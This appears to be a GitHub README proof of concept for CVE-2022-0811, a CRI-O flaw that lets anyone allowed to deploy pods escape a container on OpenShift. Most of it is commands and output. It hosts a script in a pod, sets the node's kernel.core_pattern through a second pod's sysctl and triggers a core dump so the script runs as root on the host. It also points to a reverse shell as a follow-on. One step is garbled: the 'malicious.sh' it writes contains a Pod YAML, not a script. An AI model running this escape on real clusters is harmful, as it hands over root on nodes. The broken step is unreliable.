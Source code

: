 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [CrowdStrike](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
`oc create -f ./malicious-script-host.yaml`

```
pod/malicious-script-host created
```
# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
` oc exec malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'`
```
upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff
```
# Copy contents of malicious.sh
```
oc exec malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF"
```
# Modify script permissions and verify
`oc exec malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'`
```
-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh
```
# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

`oc create -f ./sysctl-set.yaml`
```
pod/sysctl-set created
```
`oc get pods`
```
NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
`oc exec malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"`
```
|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #'
```
# First enable core dumps:
`oc exec malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"`
```
unlimited
```

#### Note for ubi8 image ps will need to be installed via
`oc exec malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"`
```
Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
`oc exec -it malicious-script-host -- /bin/bash`
`tail -f /dev/null &`
`ps`
```
PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```
`kill -SIGSEGV 42`
```/ #
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```
# Verify Malicious Script Ran :boom: :beer:

`oc exec malicious-script-host -- /bin/bash -c 'cat /output'`
```
Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
